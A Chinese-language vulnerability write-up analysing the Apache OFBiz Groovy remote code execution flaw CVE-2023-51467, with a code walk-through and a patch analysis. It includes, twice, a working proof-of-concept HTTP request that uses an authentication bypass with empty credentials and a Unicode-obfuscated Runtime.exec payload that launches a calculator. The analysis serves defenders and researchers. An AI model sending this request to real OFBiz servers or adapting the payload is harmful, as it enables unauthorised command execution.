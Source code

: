 

# 奇安信攻防社区-Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

### Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

作者：le1a@threatbook  
校验：jweny@threatbook

# 漏洞分析

在上一次的漏洞CVE-2023-49070中，修复方式仅仅是删除了XML-RPC模块，但全局的权限登陆校验的Filter仍未修复，导致了依然可以权限绕过去调用其他后台接口。这次漏洞就是与ProgramExport模块相关。

ProgramExport 模块是 OFbiz 中的一个模块，用于将 Groovy 脚本导出为 Java 类。它允许您在 OFbiz 中使用 Groovy 脚本，而无需将它们编译成 Java 字节码。

有趣的是，该后台漏洞在20年就披露了，而当时由于需要鉴权，所以被官方驳回，而修复的方案仅仅是不允许创建jsp文件......

![企业微信截图_e697c48e-244c-4dde-96d7-13e48043576d.png](assets/1705301836-43eac379c7e981f583a8f2933f04707e.png)

![企业微信截图_c67fb175-0b79-457a-a18d-c163df7c2526.png](assets/1705301836-f3c2c387977f0c5150198a9a88b766c6.png)

言归正传，根据上一次漏洞的权限绕过payload可构造如下POC：

```http
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

将断点打在ProgramExport.groovy

![image-20231227212745859.png](assets/1705301836-f1f7f1eb624b6464c82c8291b6df9082.png)

入口点在`ControlServlet#doGET()`中，然后调用了`handler.doRequest()`方法。在调用`handler.doRequest()`之前,主要是做请求预处理,包括获取用户会话信息、设置响应头、准备delegator、dispatcher、security等对象,以及打印调试日志等。这些预处理为后续的业务处理提供必要的上下文和资源。

跟进到`handler.doRequest()`

![image-20231227213000932.png](assets/1705301836-2baae73eb5445dc01b62a785653ea910.png)

这里根据`nextRequestResponse.type`的值来选择后续执行逻辑

而nextRequestResponse来自于这里

```java
ConfigXMLReader.RequestResponse successResponse = requestMap.requestResponseMap.get("success");
        if ((eventReturn == null || "success".equals(eventReturn)) && successResponse != null && "request".equals(successResponse.type)) {
            // chains will override any url defined views; but we will save the view for the very end
            if (UtilValidate.isNotEmpty(overrideViewUri)) {
                request.setAttribute("_POST_CHAIN_VIEW_", overrideViewUri);
            }
            nextRequestResponse = successResponse;
        }
```

requestMap中的requestResponseMap以及success Response是在解析controller.xml配置文件时读取并设置的。

具体代码在ConfigXMLReader类的parseRequestMap方法中:

```java
public void parseRequestMap(Element requestMapElement) {
  RequestMap requestMap = new RequestMap();
  requestMap.securityAuth = "true".equals(requestMapElement.getAttribute("auth"));
  requestMap.securityCert = "true".equals(requestMapElement.getAttribute("cert"));
  requestMap.securityExternalView = "true".equals(requestMapElement.getAttribute("external-view"));
  requestMap.securityDirectRequest = "true".equals(requestMapElement.getAttribute("direct-request")) ;  
  requestMap.securityHttps = "true".equals(requestMapElement.getAttribute("https"));

  // 解析event、response等子元素
  List<? extends Element> childElements = UtilXml.childElementList(requestMapElement);
  for (Element childElement: childElements) {
    if ("event".equals(childElement.getTagName())) {
      // 解析event元素  
    } else if ("response".equals(childElement.getTagName())) {
      // 解析response元素
      RequestResponse requestResponse = new RequestResponse();
      requestResponse.name = childElement.getAttribute("name");
      requestResponse.type = childElement.getAttribute("type"); 
      requestResponse.value = childElement.getAttribute("value");

      requestMap.requestResponseMap.put(requestResponse.name, requestResponse);  
    } else if ("success".equals(childElement.getTagName())) {
      // 解析success响应
      RequestResponse successResp = new RequestResponse();
      successResp.type = childElement.getAttribute("type");
      successResp.value = childElement.getAttribute("value");
      requestMap.requestResponseMap.put("success", successResp);
    }
  }

  // 添加到ControllerConfig的map中
  ccfg.addRequestMap(requestMap); 
}
```

可以看到,在解析每个`<request-map>`时,会解析出其success响应,添加到`requestResponseMap`中,供后续使用。

所以requestMap和其中的responses都是在启动初始化时从配置文件解析和设置的。

在controller.xml中也能看到type的值为view

![image-20231227214746879.png](assets/1705301836-68041eb7ea114606c2cca770c8d36416.png)

继续跟进到`renderView()`

![image-20231227214918328.png](assets/1705301836-d1a3127929a6d0c78ede172cb56aa710.png)

这里主要是获取渲染CONTEXT,并准备好响应头的各种配置,以供后续视图渲染使用。

中间经过几层调用后，来到了关键的`org.apache.ofbizz.widget.model#runSubAction()`

![image-20231227222609957-4254905.png](assets/1705301836-0d55f7bdbb9ae9ba57ca2fdf9b61c5a0.png)

这里执行了ProgramExport.groovy，而action源于上一层调用

![image-20231227222937612](assets/1705301836-74d317e3d028e4169e1fe1610d8c8148.png)

这里的actions元素也是从视图配置的XML文件中获取的。

![image-20231227223129516](assets/1705301836-1691118d21965c105fe3f49aabc83ea4.png)

![image-20231227223156574](assets/1705301836-33ba8041f5948b5eebc4879e24f7f631.png)

然后继续跟进到`runAction()`

![image-20231227223309371](assets/1705301836-14b947403daaa5a809c1c7dca1e4c8bf.png)

继续跟进

![image-20231227223322564](assets/1705301836-ac94cac61499d02162977106c35761dd.png)

继续跟进

![image-20231227223342357](assets/1705301836-a63a7444d88efaefc3e01d7da8d6a3d2.png)

继续跟进

![image-20231227223430890](assets/1705301836-a29224b3706c97620f180f4a5e1bfb04.png)

最终执行了Groovy代码

![image-20231227223743288](assets/1705301836-ebc317d926d7e48683b5b1e78a3a0695.png)

## 补丁分析

在新的补丁中，更改了最后的login返回逻辑，如果前面都通过了，不再是根据requirePasswordChange的真假来判断，而是直接返回error，也就是前面传入Y，使得requirePasswordChange为True行不通了

![image-20231228001054149](assets/1705301836-feee6d394c631487e51a79abff1441ae.png)

但是仔细观察发现，还有一处`return requirePasswordChange ? "requirePasswordChange" : "error";`没有修改

![image-20231228001317699](assets/1705301836-52e036004c48ed4aaf20f064ca08a5f4.png)

这里使用`isEmpty()`判断是否为空，需要null或者长度为0，所以空字符串正好满足

![image-20231228001446432](assets/1705301836-d3efe68f4cecdd659cc729591a2c3dc8.png)

那是不是username和password为空就能再次bypass呢？？？

经过实际测试发现，在上一个版本的确是可以成功，因为上个版本中的`checklogin`方法调用`login`方法的时候使用的并不是`isEmpty()`，而是判断是否为null。所以空字符串正好钻了空子，既不等于null，又满足`isEmpty()`

![image-20231228001819945](assets/1705301836-9f35e6b7865c0428b3d9ab866919eefa.png)

而新版补丁改为了`isEmpty()`，与后续`login()`校验一致，导致没办法绕过了。

# 漏洞复现

1.  网站首页如下图：

![3b83950f29b76e5eae5696d673694929](assets/1705301836-95fb2ac3628b400e1c08871b3b0a45fc.png)

2.使用如下POC进行验证

```php
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

![8c57e87e534059003b792e49b7e90d27](assets/1705301836-4ddbe919f8fdd89d96485d52a79bd0c3.png)
